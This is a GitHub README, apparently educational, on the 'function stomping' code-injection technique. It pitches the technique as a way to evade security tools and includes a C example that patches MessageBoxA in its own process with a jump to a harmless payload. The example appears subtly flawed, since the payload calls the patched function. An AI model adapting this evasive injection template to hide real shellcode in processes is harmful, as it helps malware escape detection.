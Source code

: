 # Function Stomping Injection

## [![Typing SVG](https://readme-typing-svg.demolab.com?font=JetBrains+Mono&weight=2000&pause=1000&width=435&lines=Welcome+to+Function+Stomping+Injection+Repo!!!;Check+my+Repos+for+more+malware+projects;Exploring+advanced+injection+techniques;Educational+purposes+only!)](https://git.io/typing-svg)

## Overview

Function stomping is an advanced code injection technique used to modify the behavior of a program by overwriting the memory of a legitimate function with custom code. This approach avoids creating new executable memory, making it stealthier compared to traditional methods that use APIs like `VirtualAlloc` or `VirtualAllocEx`.

The goal of this repository is to provide practical examples of this technique for educational purposes and help researchers and security professionals understand its mechanics.

## Table of Contents

- [Overview](#overview)
- [How It Works](#how-it-works)
- [Why Use Function Stomping?](#why-use-function-stomping)
- [Steps to Implement](#steps-to-implement)
- [Example Code](#example-code)
- [Precautions](#precautions)
- [Disclaimer](#disclaimer)
- [References](#references)

## How It Works

The process of function stomping can be summarized as follows:

1. **Identify a Sacrificial Function**:
   - Locate an existing function in the target process (e.g., functions in system libraries such as `kernel32.dll` or `ntdll.dll`).

2. **Overwrite the Function's Memory**:
   - Modify the memory where the function resides to replace its original logic with custom malicious code.

3. **Execute Malicious Code**:
   - When the overwritten function is called, it executes the custom code instead of its original behavior.

4. **(Optional) Restore Functionality**:
   - If stealth is critical, the original function can be restored after execution to avoid detection.

## Why Use Function Stomping?

Function stomping is a stealthy technique because it:
- **Avoids Allocating New Memory**: No new executable memory is allocated, reducing the chances of detection by security tools.
- **Uses Existing Code Locations**: Overwrites existing memory regions, blending into the program's normal memory layout.

## Steps to Implement

1. **Find the Target Function:**
   - Use tools like `GetProcAddress` or debugging utilities to locate the memory address of a function.

2. **Change Memory Permissions:**
   - Modify the memory region's permissions (e.g., using `VirtualProtect`) to make it writable and executable if necessary.

3. **Overwrite the Function:**
   - Replace the function's instructions with your custom shellcode or a jump to your payload.

4. **Trigger Execution:**
   - Call the modified function or trigger it indirectly, causing the malicious code to execute.

## Example Code

Below is a simple example of function stomping in C:

```c
#include <windows.h>
#include <stdio.h>

void payload() {
    MessageBoxA(NULL, "Hello from the payload!", "Function Stomping", MB_OK);
}

int main() {
    // Identify the sacrificial function (e.g., MessageBoxA)
    FARPROC targetFunc = GetProcAddress(GetModuleHandleA("user32.dll"), "MessageBoxA");
    if (!targetFunc) {
        printf("Failed to locate target function.\n");
        return -1;
    }

    // Change memory permissions to writable
    DWORD oldProtect;
    if (!VirtualProtect(targetFunc, 4096, PAGE_EXECUTE_READWRITE, &oldProtect)) {
        printf("Failed to change memory permissions.\n");
        return -1;
    }

    // Overwrite the target function with a JMP to our payload
    unsigned char jmp[] = {
        0x48, 0xB8,                           // MOV RAX, address
        (unsigned char)((uintptr_t)payload & 0xFF),
        (unsigned char)(((uintptr_t)payload >> 8) & 0xFF),
        (unsigned char)(((uintptr_t)payload >> 16) & 0xFF),
        (unsigned char)(((uintptr_t)payload >> 24) & 0xFF),
        (unsigned char)(((uintptr_t)payload >> 32) & 0xFF),
        (unsigned char)(((uintptr_t)payload >> 40) & 0xFF),
        (unsigned char)(((uintptr_t)payload >> 48) & 0xFF),
        (unsigned char)(((uintptr_t)payload >> 56) & 0xFF),
        0xFF, 0xE0                            // JMP RAX
    };

    memcpy(targetFunc, jmp, sizeof(jmp));

    // Restore original permissions
    VirtualProtect(targetFunc, 4096, oldProtect, &oldProtect);

    // Trigger the overwritten function
    MessageBoxA(NULL, "This should run the payload.", "Test", MB_OK);

    return 0;
}
```

## Precautions

- **Stability**: Overwriting critical functions may crash the application if not done carefully.
- **Detection**: While stealthy, this technique can still be detected by advanced security tools or monitored memory regions.

## Disclaimer

This repository is for educational purposes only. The use of these techniques in unauthorized or malicious contexts is strictly prohibited and may violate laws.

## References
- [Windows API Documentation](https://learn.microsoft.com/en-us/windows/win32/api/)
- [Reverse Engineering Techniques](https://reverseengineering.stackexchange.com/)
